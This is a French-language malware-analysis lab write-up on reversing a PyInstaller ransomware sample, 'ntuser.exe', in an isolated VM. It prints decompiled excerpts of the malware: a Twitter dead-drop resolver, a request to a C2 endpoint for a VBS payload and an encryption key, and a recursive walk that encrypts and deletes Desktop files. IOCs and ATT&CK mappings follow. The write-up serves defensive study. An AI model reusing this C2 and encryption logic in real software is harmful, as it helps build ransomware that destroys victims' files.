




# 🧬 Analyse statique — `ntuser.exe` (rançongiciel Python / PyInstaller)

> **Objectif du TP :** retrouver le code source de l'exécutable.
> Analyse menée sur **REMnux**, VM isolée sans réseau, échantillon jamais exécuté.

**Outils :** REMnux · `file` · `sha256sum` · `pyinstxtractor` · `xxd` · `dd` · `pycdc` (Decompyle++)

⬅️ **[Retour à l'investigation DFIR du poste WIN10MAG](../README.md)**

---

## 1. Échantillon

| | |
|---|---|
| Nom | `ntuser.exe` |
| Type | PE32, exécutable Windows (GUI) Intel 80386 (32 bits) |
| Taille | 11 655 930 octets |
| SHA-256 | `33e320033c1a8dd9b337dd32dfba30c6597f9874dbaee7f02af7d1d34f024f9c` |
| Empaquetage | PyInstaller 2.1+, **Python 2.7** |

**Précautions :** archive transférée fermée depuis l'hôte via un partage **en lecture seule**,
décompressée uniquement dans REMnux (Linux : le `.exe` Windows ne peut pas s'exécuter), carte réseau
désactivée, snapshot pris avant l'analyse.

---

## 2. Démarche

### 2.1 Extraction de l'archive PyInstaller

Un exécutable PyInstaller embarque l'interpréteur Python, les bibliothèques et le script compilé
(`.pyc`). `pyinstxtractor` ouvre cette archive :

```bash
pyinstxtractor.py ntuser.exe
```



| Fichier | Rôle |
|---|---|
| `pyiboot01_bootstrap.pyc`, `pyi_rth_*.pyc` | Démarrage de PyInstaller (non pertinent) |
| **`ntuser.pyc`** | 🎯 **Script de l'attaquant** |

Les modules `tkinter` et `certifi` embarqués annoncent déjà une interface graphique et des
communications HTTPS.

### 2.2 Correction de l'en-tête `.pyc`

La première décompilation échoue (`CreateObject: Got unsupported type 0x0`). En examinant les
octets, on voit que `pyinstxtractor`, exécuté sous Python 3.8, a écrit **le magic number de sa propre
version** au lieu de celui de Python 2.7 :

| | Magic number |
|---|---|
| Écrit par l'outil (Python 3.8) | `55 0d 0d 0a` ❌ |
| Attendu (Python 2.7) | `03 f3 0d 0a` ✅ |

```bash
cp ntuser.exe_extracted/ntuser.pyc ntuser_fixed.pyc
printf '\x03\xf3\x0d\x0a' | dd of=ntuser_fixed.pyc bs=1 seek=0 count=4 conv=notrunc
xxd ntuser_fixed.pyc | head -1
```



### 2.3 Décompilation

```bash
pycdc ntuser_fixed.pyc > ntuser.py
```



✅ **Code source entièrement reconstitué.**

---

## 3. Analyse du code

> Extraits commentés. Le code complet n'est volontairement pas publié.

**Récupération du serveur C2 via Twitter (dead drop resolver) :**

```python
def get_host():
    r = get('https://twitter.com/S1mpleCC')          # profil Twitter de l'attaquant
    soup = BeautifulSoup(r.text, 'lxml')
    tag = soup.find('p', 'tweet-text')               # le tweet contient l'adresse du C2
    return tag.text
```

**Récupération de la clé et du script VBS depuis le C2 :**

```python
host = get_host()
r = get('http://' + host + '/3f792f24bdd299f1c163f2358fb130f9.php').text...
set_vbs(r.split('x07C82')[0])     # partie 1 : VBS en base64 → %LOCALAPPDATA%\config\aaa.vbs
fn = Fernet(r.split('x07C82')[1]) # partie 2 : clé de chiffrement Fernet
recurse('C:\\users\\' + getpass.getuser() + '\\desktop')
```

**Chiffrement :** parcours récursif du Bureau, écriture d'une copie `<fichier>.cry` chiffrée
avec Fernet (AES-128-CBC + HMAC), puis **suppression de l'original**.

### Ce qu'il faut retenir

| Constat | Conséquence |
|---|---|
| **Clé fournie par le C2**, absente du binaire | Elle n'existe qu'en mémoire. Sans dump RAM ni capture réseau, **pas de déchiffrement possible**. |
| **C2 caché derrière un tweet** | L'adresse peut changer sans recompiler le malware, et elle échappe aux listes de blocage statiques. |
| **Cible : le Bureau de l'utilisateur** | Cohérent avec le contexte : fichiers du bureau renommés en `.cry`. |
| `decrypt()` appelée mais **non définie** dans le code décompilé | Le « mode déchiffrement » planterait. À nuancer : une perte à la décompilation n'est pas exclue. |
| `aaa.vbs` **écrit mais jamais lancé** par le script | Rôle (persistance ? seconde charge ?) à déterminer. |

---

## 4. Recoupement avec le poste WIN10MAG (bonus)

L'analyse statique a été confrontée à la MFT collectée par DFIR ORC sur le poste compromis.

| Critère | Échantillon du TP | Binaire exécuté sur WIN10MAG |
|---|---|---|
| Architecture | PE32 (32 bits) | pe64_amd64 (64 bits) |
| SHA-256 | `33e32003…f024f9c` | `a9b34637…e4bea2` |
| `aaa.vbs` sur disque | écrit par le code | **absent** de la MFT |
| Périmètre chiffré | Bureau uniquement | **Bureau + `AppData\Local`** (OneDrive, Chrome, Recherche Windows…) |



Fichiers chiffrés sur le Bureau : `todo.txt`, `rdv.xlsx`, `facture_cdarmon.docx`, `plan.png`.
Leurs extensions correspondent **exactement** à celles relevées dans `OpenSavePidlMRU`
(`txt`, `xlsx`, `docx`, `png`).

👉 **Conclusion :** l'échantillon du TP est une **variante** de la même famille. La version exécutée
sur le poste a un **périmètre de chiffrement plus large**. Sa reconstitution exacte nécessiterait
d'analyser le binaire 64 bits.

---

## 5. IOC & MITRE ATT&CK

| Type | Valeur |
|---|---|
| SHA-256 (échantillon TP) | `33e320033c1a8dd9b337dd32dfba30c6597f9874dbaee7f02af7d1d34f024f9c` |
| Dead drop | `twitter.com/S1mpleCC` |
| Ressource C2 | `/3f792f24bdd299f1c163f2358fb130f9.php` |
| Séparateur de réponse | `x07C82` |
| Fichier déposé | `%LOCALAPPDATA%\config\aaa.vbs` |
| Extension | `.cry` |

| Technique | ID |
|---|---|
| Dead Drop Resolver | T1102.001 |
| Application Layer Protocol : Web | T1071.001 |
| Ingress Tool Transfer | T1105 |
| Data Encrypted for Impact | T1486 |
| Masquerading | T1036 |

---

## 6. Compétences démontrées

- Identification d'un exécutable **PyInstaller** et extraction de son contenu.
- Diagnostic d'un échec de décompilation au niveau **octet** (`xxd`) et correction manuelle du **magic number**.
- Décompilation Python 2.7 avec `pycdc` et **lecture critique** du code (C2, clé, cible, failles).
- **Recoupement** entre analyse statique et artefacts forensic (MFT, OpenSavePidlMRU).
- Analyse menée **en sécurité** : environnement isolé, aucune exécution de l'échantillon.

---

**Waheed Nasiri** · Laboratoire personnel, environnement d'entraînement isolé.

